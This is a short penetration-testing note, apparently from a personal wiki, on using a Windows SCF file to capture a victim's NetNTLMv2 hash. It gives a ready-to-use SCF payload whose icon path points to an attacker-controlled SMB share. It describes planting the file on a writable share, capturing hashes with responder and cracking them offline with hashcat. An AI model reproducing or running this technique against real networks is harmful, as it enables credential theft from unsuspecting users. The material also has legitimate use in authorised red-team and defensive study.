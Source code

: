 # SCF Files

---

## Social Engineering with an SCF File to Capture Someone's Hash

You can create a Windows Explorer command file (SCF file) that contains a link to an attacker-controlled SMB share. If a user clicks on the file, their computer will forward their NetNTLMv2 hash to the attacker-controlled SMB share. This hash can be cracked offline.

On the attacker-controlled machine, [[responder#Start Responding|start responding with responder]].

Create the SCF, something that looks like this:

```bash
$ cat tgihf.scf
[Shell]
Command=2
IconFile=\\$ATTACKER_FQDN_OR_IP\$ANY_SHARE_NAME\icon.ico
[Taskbar]
Command=ToggleDesktop
```

Write the SCF file to the writable SMB share folder and wait. If a user clicks on the file, their NetNTLMv2 hash will be captured by `responder`.

Use [[hashcat#Crack NetNTLMv2 Hashes|hashcat]] to crack the NetNTLMv2 hash.
